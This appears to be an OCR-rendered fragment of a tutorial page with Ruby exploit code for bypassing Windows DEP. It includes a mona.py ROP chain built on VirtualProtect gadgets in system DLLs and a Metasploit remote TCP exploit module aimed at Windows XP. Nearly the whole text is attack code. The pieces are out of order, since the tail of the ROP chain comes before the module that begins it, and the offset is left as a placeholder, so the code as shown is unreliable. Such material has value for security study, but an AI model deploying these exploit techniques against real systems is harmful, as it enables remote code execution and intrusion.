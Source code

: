 ```ruby
      0x77dc560a,  # XCHG EAX,EBX # RETN [ADVAPI32.dll]
      0x7c87fbcb,  # POP EAX # RETN [kernel32.dll]
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x77d4493b,  # NEG EAX # RETN [USER32.dll]
      0x77c28fbc,  # XCHG EAX,EDX # RETN [msvcrt.dll]
      0x77bef7c9,  # POP ECX # RETN [msvcrt.dll]
      0x7c99bac1,  # &Writable location [ntdll.dll]
      0x719e4870,  # POP EDI # RETN [mswsock.dll]
      0x77e6d224,  # RETN (ROP NOP) [RPCRT4.dll]
      0x77e8c50c,  # POP EAX # RETN [RPCRT4.dll]
      0x90909090,  # nop
      0x77de60c7,  # PUSHAD # RETN [ADVAPI32.dll]
    ].flatten.pack("V*")

    return rop_gadgets

  end


  # Call the ROP chain generator inside the 'exploit' function :


  rop_chain = create_rop_chain()
```
## 自动化攻击
```ruby=
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking
  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DEP Bypass Exploit',
      'Description'    => %q{
        		  DEP Bypass Using ROP Chains Example Module
      			  },
      'Platform'       => 'Windows',
      'Author'         => 'yanhan',
      'Payload'        =>
        		  {
          		  'space'     => 312,
          		  'BadChars'  => "\x00"
        		  },
      'Targets'        =>
      		  	  [
          		    [
			    'Windows XP',
			    {'Offset'  => find it}
			    ]
        		  ],
      'DisclosureDate' => '2019-01-16'))
  end

  def create_rop_chain()

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets =
    [
      0x77dabf34,  # POP ECX # RETN [ADVAPI32.dll]
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x77d1927f,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [USER32.dll]
```
